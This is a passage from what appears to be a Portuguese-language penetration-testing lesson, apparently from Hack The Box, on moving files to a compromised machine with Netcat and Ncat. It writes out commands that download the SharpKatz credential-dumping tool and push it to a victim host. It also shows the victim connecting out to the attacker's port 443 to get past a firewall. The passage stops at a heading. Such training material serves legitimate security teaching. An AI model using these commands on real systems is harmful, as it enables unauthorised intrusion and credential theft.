 #### Netcat - Anfitrião de ataque - Enviando arquivo para máquina comprometida

```shell-session
casluxd@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
casluxd@htb[/htb]$ # Example using Original Netcat
casluxd@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

Ao utilizar o Ncat em nosso host atacante, podemos optar por `--send-only` ao invés de `-q`. O `--send-only` sinalizador, quando usado nos modos de conexão e escuta, solicita que o Ncat termine quando sua entrada estiver esgotada. Normalmente, o Ncat continuaria em execução até que a conexão de rede fosse fechada, pois o lado remoto pode transmitir dados adicionais. No entanto, com `--send-only`, não há necessidade de antecipar mais informações recebidas.

#### Ncat - Anfitrião de ataque - Enviando arquivo para máquina comprometida

```shell-session
casluxd@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
casluxd@htb[/htb]$ # Example using Ncat
casluxd@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Em vez de ouvir em nossa máquina comprometida, podemos nos conectar a uma porta em nosso host de ataque para executar a operação de transferência de arquivos. Este método é útil em cenários em que há um firewall bloqueando conexões de entrada. Vamos ouvir na porta 443 do nosso Pwnbox e enviar o arquivo [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) como entrada para Netcat.

#### Anfitrião de ataque - Enviando arquivo como entrada para o Netcat

```shell-session
casluxd@htb[/htb]$ # Example using Original Netcat
casluxd@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Conecte-se à Netcat para receber o arquivo

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Vamos fazer o mesmo com Ncat:

```shell-session
casluxd@htb[/htb]$ # Example using Ncat
casluxd@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Conecte-se à máquina comprometida ao Ncat para receber o arquivo
